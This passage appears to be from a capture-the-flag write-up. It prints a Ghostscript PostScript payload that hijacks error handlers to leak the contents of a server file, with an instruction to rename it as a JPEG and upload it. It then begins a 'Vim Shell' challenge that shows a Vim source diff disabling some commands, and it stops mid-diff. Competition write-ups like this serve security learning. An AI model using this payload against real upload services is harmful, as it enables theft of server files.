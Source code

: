 ```
errordict /undefinedfilename {
    FileToSteal % save the undefined name
} put
errordict /undefined {
    (STOLEN: ) print
    counttomark {
        ==only
    } repeat
    (\n) print
    FileToSteal
} put
errordict /invalidfileaccess {
    pop
} put
errordict /typecheck {
    pop
} put
FileToSteal (w) .tempfile
statusdict
begin
    1 1 .setpagesize
end
quit
```

Rename the image to `XXX.jpeg` and upload it.

# MISC

## Vim Shell (pt 126)

We get a vim in web page as following:
```
diff --git a/src/normal.c b/src/normal.c
index 41c762332..0011afb77 100644
--- a/src/normal.c
+++ b/src/normal.c
@@ -274,7 +274,7 @@ static const struct nv_cmd
     {'7',      nv_ignore,      0,                      0},
     {'8',      nv_ignore,      0,                      0},
     {'9',      nv_ignore,      0,                      0},
-    {':',      nv_colon,       0,                      0},
+    // {':',   nv_colon,       0,                      0},
     {';',      nv_csearch,     0,                      FALSE},
     {'<',      nv_operator,    NV_RL,                  0},
     {'=',      nv_operator,    0,                      0},
@@ -297,7 +297,7 @@ static const struct nv_cmd
     {'N',      nv_next,        0,                      SEARCH_REV},
     {'O',      nv_open,        0,                      0},
     {'P',      nv_put,         0,                      0},
-    {'Q',      nv_exmode,      NV_NCW,                 0},
+    // {'Q',   nv_exmode,      NV_NCW,                 0},
     {'R',      nv_Replace,     0,                      FALSE},
     {'S',      nv_subst,       NV_KEEPREG,             0},
     {'T',      nv_csearch,     NV_NCH_ALW|NV_LANG,     BACKWARD},
@@ -318,7 +318,7 @@ static const struct nv_cmd
     {'d',      nv_operator,    0,                      0},
     {'e',      nv_wordcmd,     0,                      FALSE},
     {'f',      nv_csearch,     NV_NCH_ALW|NV_LANG,     FORWARD},
-    {'g',      nv_g_cmd,       NV_NCH_ALW,             FALSE},
+    // {'g',   nv_g_cmd,       NV_NCH_ALW,             FALSE},
     {'h',      nv_left,        NV_RL,                  0},
```